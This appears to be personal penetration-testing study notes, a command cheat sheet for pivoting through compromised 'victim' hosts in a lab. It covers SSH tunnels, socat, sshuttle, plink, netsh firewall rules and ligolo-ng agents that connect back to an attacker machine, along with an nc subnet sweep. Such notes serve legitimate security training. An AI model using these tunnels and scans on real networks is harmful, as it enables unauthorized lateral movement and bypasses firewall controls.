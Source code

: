 # Linux Port Forwarding
- look for subnet/dmz
- ``` ip route ```  | ``` ip addr ```
## Socat
- ``` socat TCP-LISTEN:2222,fork TCP:{ip}:22 ```

# SSH tunneling
  
## Local port fw 
- use 2 jump pad and go to target
- useful search port without nmap: ``` for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done ```
- kali -> victim 1 -> victim 2(10.4.xxx) -> victim3(172.16.xxx)
1. initate ssh tunneling in victim 1 ``` ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215 ``` (No shell & )
2. check service if on victim 1``` ss -ntplu ```
 
## Dynamic port fw
- Enable proxychains in kali for more comfortability on ssh tun
1. ``` nano /etc/proxychains4.conf ``` with ``` socks5 {ip of ssh tun entrance} {port of ssh tun entrance} ```
2. run in victim ``` ssh -N -D 0.0.0.0:9999 database_admin@10.4.210.215 ``` 

## REMOTE local port fw
- prob cant go victim 3 with this method but can cure the problem of inbound firewall rule
- **Care** if connected 127.0.0.1/0.0.0.0 will become victim 1 && the the port will be used
1. host ssh server in kali: ``` sudo systemctl start ssh ``` (check: ``` sudo ss -ntplu ```)
2. run remote ssh fw in victim 1``` ssh -N -R 127.0.0.1:{port to be used in kali to connect this}:{victim2 ip}:5432 kali@{kali_ip} ```


## REMOTE dynamic port fw
- run this in victim 1 ``` ssh -N -R 9998 kali@192.168.118.4 ```
- edit proxychains conf
- need to use proxychains as above in kali to run commands
- **care** about

## sshuttle
- need root & py3
1. run simple port forwarding in victim 1 : ``` socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22 ```
2. ``` sshuttle -r database_admin@{victim 1 ip}:{victim 1} 10.4.50.0/24 172.16.50.0/24 {subnets}``` 
- works like vpn and setup 
- after success just hold there and keep running | sometimes may not receive much output

# Window Tool
## ssh.exe 
- Low probability have
- using cmd(not pwsh) to see ssh exist or not ``` where ssh ```
1. reverse REMOTE dynamic port ``` ssh -N -R 9998 kali@192.168.118.4 ``` (same as above)
- can use other ways too

## Plink (or Putty)
- Mid Prob
- Allow RDP connection for visual
- If blocked inbound from external and allow self fuck port then can use this way to start a REMOTE local port fw -> use rdp account u found to login thru this port

- Host apache / other python 80 web server to transfer
- Pull plink.exe (inside kali machine library @1.md) to victim
1. run in victim: ``` C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:{kali_port}:127.0.0.1:{to be binded port in victim} {kali ip} ```
2. kali: ``` xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833 ```

## Netsh 
- Requires ADMIN ROOT & CMD
- High Prob (since its network shell e.g. builtin firewal config tool is this)
  
### Simple forwarding
1. open 2222 on victim 1 to connect to victim 2 port 22``` netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.189.64 connectport=22 connectaddress=10.4.189.215 ``` (wont have response so need check with ``` netstat -anp TCP | find "2222" ``` OR ``` netsh interface portproxy show all ```)
  
### If filtered packet 
- Open firewall: ``` netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow ```

#### Clean up
- remove firewall rule ``` netsh advfirewall firewall delete rule name="port_forward_ssh_2222" ```
- remove port fwing ``` netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64 ```

#  ligolo-ng
- https://github.com/nicocha30/ligolo-ng/releases/tag/v0.6.2
- https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5 
## Proxy (Kali) Setup
1. ``` 
    # Adds a new tun interface to our machine.
    sudo ip tuntap add user kali mode tun ligolo

    # Enables the new interface.
    sudo ip link set ligolo up
    ```
2. ```
    # With the -selfcert flag the tool dynamically 
    # generates self-signed certificates.

    ./proxy -selfcert
    ```
3. (After agent connected): ``` >>session >>start ```
   https://www.calculator.net/ip-subnet-calculator.html?cclass=any&csubnet=24&cip=172.16.184.254&ctype=ipv4&x=Calculate

4.  ```
    sudo ip route add 172.16.5.0/24 dev ligolo
    ```
5.  (Delete)
    ```
    sudo ip route remove 172.16.184.0/24
    ```

## Agent (Victim)
1. ```
    # The IP will be the IP of our Kali VM/attacking machine.
    # The -ignore-cert ignores certificate validation. 
    # This means we won't have any issues with our self-signed certs.

    ./agent -connect 10.10.14.213:11601 -ignore-cert
    ```
### Special Local forwarding 
- this tool has hardcoded ip 240.0.0.1 for accessing pivot host port
``` 
    sudo ip route add 240.0.0.1 dev ligolo
```